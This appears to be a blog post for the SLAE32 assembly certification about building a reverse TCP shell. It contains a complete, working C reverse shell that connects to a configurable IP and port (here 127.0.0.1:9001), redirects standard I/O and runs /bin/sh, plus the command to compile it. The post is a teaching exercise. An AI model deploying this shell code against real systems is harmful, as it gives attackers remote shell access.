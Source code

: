 ```yaml
---
title: SLAE32 - Assignment#2 [Reverse TCP Shell]
author: bigb0ss
date: 2020-12-13 13:26:00 +0800
categories: [SLAE32, Assignment_2_Reverse-TCP-Shell]
tags: [slae32, assembly, x86, Reverse TCP Shell]
image: /assets/img/post/slae32/slae32.png
---
```


<b>This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:</b>

<b>http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/</b>

<b>Student ID: SLAE-1542</b>

[SLAE32 Assignemt#2 Github](https://github.com/bigb0sss/SLAE32)


# Assignement #2 
* Create a Shell_Reverse_TCP shellcode
	- Reverse connects to configured IP and Port
	- Execs shell on successful connection
* IP and Port should be easily configurable

# What is a Reverse Shell?
Oppose to a Bind Shell, a Reverse Shell connects back to the attacker's computer upon a payload executed on the victim's system. This type of shell is more useful when the target organization has a strong Firewalls for inbound connection. The Reverse Shell can take the advantage of common outbound ports such as port 80, 443, 53 and etc. 

![image](/assets/img/post/slae32/assignment2/01.png)

# Socket Programming
Similar to the Bind TCP Shell exercise, let's create a Reverseh TCP Shell in a higher programming language. We will use `C` again:

```c++
#include <netinet/in.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <unistd.h>

int main()
{
    int sockfd, acceptfd;
	int port = 9001;

	// Address struct
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(port); 
    addr.sin_addr.s_addr = inet_addr("127.0.0.1");

   	// 1) Socket Syscall (sys_socket 1)
	sockfd = socket(AF_INET, SOCK_STREAM, 0);

    // 2) Connect Syscall
    connect(sockfd, (struct sockaddr *) &addr, sizeof(addr));
    
    // 3) Dup2 Syscall
    dup2(sockfd, 0);    //stdin
    dup2(sockfd, 1);    //stdout
    dup2(sockfd, 2);    //stderr

    // 4) Execve Syscall
    execve("/bin/sh", NULL, NULL);
    return 0;
}
```

Let's compile this: 

```console
gcc reverse-tcp-shell.c -o reverse-tcp-shell -w
```

The compiled reverse shell binary can successfully connect back to `127.0.0.1:9001` as expected.

![image](/assets/img/post/slae32/assignment2/02.png)


# Shellcode

For the Reverse TCP Shell, we need to following `syscalls`:

1) Socket
2) Connect 
3) Dup2
4) Execve